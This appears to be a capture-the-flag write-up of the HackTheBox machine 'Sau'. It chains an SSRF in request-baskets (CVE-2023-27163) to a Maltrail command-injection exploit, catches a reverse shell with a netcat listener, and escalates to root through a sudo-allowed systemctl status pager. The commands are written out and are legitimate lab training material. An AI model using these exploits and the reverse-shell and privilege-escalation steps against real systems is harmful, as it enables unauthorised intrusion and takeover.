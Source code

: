 ```yaml
---
layout: post
title: Sau - Hackthebox
date: 2023-09-28 21:52 +0100
categories:
- Writeups
- Hackthebox
tags:
- SSRF
- Linux
- CVE-2023-27163
- request-baskets
- Maltrail
- Command Injection
- systemctl
img_path: "/assets/img/sau"
image:
  path: machine_img.png
  alt: sau
---
```


Sau is a machine that has a vulnerable version of the service request-baskets. The vulnerability presented is a Server Side Request Forgery that allows us to perform requests to internal services not exposed in the machine. The hidden service is a vulnerable version of Maltrail which gives us OS command injection giving access to the machine. In the end, to escalate privileges we used a misconfigured command in sudoers that uses systemctl status pager to get a shell as root.


## Recon

We found ports 22, 80 and 55555 running on the target machine using `nmap -sC -sV -oN nmap_scan IP`.
Port 55555 seems to be running a web application and port 80 can't be reached.

```

PORT      STATE    SERVICE VERSION                                                            
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)                                                      
| ssh-hostkey:                                                                                
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)                                               
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)                                              
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)                                            
80/tcp    filtered http                                                                       
55555/tcp open     unknown                                                                    
| fingerprint-strings:                                                                        
|   FourOhFourRequest:                                                                        
|     HTTP/1.0 400 Bad Request                                                                
|     Content-Type: text/plain; charset=utf-8                                                 
|     X-Content-Type-Options: nosniff                                                         
|     Date: Thu, 28 Sep 2023 17:47:30 GMT                                                     
|     Content-Length: 75                                                                      
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$                 
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request                                                                
|     Content-Type: text/plain; charset=utf-8                                                 
|     Connection: close                                                                       
|     Request                                                                                 
|   GetRequest:                                                                               
|     HTTP/1.0 302 Found                                                                      
|     Content-Type: text/html; charset=utf-8                                                  
|     Location: /web                                                                          
|     Date: Thu, 28 Sep 2023 17:47:02 GMT                                                     
|     Content-Length: 27                                                                      
|     href="/web">Found</a>.                                                                  
|   HTTPOptions:                                                                              
|     HTTP/1.0 200 OK                                                                         
|     Allow: GET, OPTIONS                                                                     
|     Date: Thu, 28 Sep 2023 17:47:03 GMT                                                                                    
|_    Content-Length: 0  


```

It seems like a web application that allow us to inspect http requests called requests-basket and has a github repo: https://github.com/darklynx/request-baskets. It is in the version 1.2.1.

![](port_55555.png)

Looking for exploits for that service(request-baskets) and that version(1.2.1) we found the CVE-2023-27163:

- https://www.exploit-db.com/exploits/51675
- https://github.com/entr0pie/CVE-2023-27163
- https://nvd.nist.gov/vuln/detail/CVE-2023-27163

This vulnerability is a [Server Side Request Forger]y(https://portswigger.net/web-security/ssrf) which allow us to make requests to internal hosts not exposed, as if we were the vulnerable server.

We run the script present in the [repo](https://github.com/entr0pie/CVE-2023-27163):

```shell
./CVE-2023-27163.sh http://10.10.11.224:55555 http://localhost:80
```

![](ssrf.png)

This script will create a proxy basket as if it is the internal service. This means that, the generated basket, for example, http://10.10.11.224:55555/zwnush/ will be the same as accessing the machine port 80, http://localhost:80. Note: The CSV and javascript is not loaded because it tries to load from the basket and it does not have it.


## Foothold

The service that it seems running in the port 80 seems like the service Maltrail in the version (v0.53).
The searching for an exploit for that version in Google, the first link takes us to an [exploit](https://github.com/spookier/Maltrail-v0.53-Exploit) that gives us OS command injection.

We open a netcat listener `nc -lvnp 1234` and use the exploit `python3 exploit.py 10.10.14.199 1234 http://10.10.11.224:55555/zwnush/login` targeting the login page of maltrail. We get a shell as the user puma and looking in the passwd file we are the only normal user besides root. Home directory gives us the first flag.

![](login.png)


## Privilege Escalation

Here we want to try to upgrade to a more [interactive shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).
To do it, we first check for the presence of python in the machine with `which python3` then:
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
(CTRL + Z)
stty raw -echo 
(ENTER)
fg
(ENTER)
(ENTER)
export TERM=tmux-256color
```

To have a better coverage of what we can do in the machine as the user puma we send [linpeas](https://linpeas.sh/) to the target machine and execute it.
We found an unusual entry in sudoers file:

```shell
User puma may run the following commands on sau:                                                                                                                                              
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

```

This allow us to get the status of service running in the machine. However as explain in the [blog](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/) systemctl status uses a pager to show the output of the service. The pager allows to run commands if we type a exclamation mark: `!whoami`. In our case, since we are running the command already as root, `sudo /usr/bin/systemctl status trail.service`, we just do `!sh` and we get a shell inside pager as root and get the root flag.

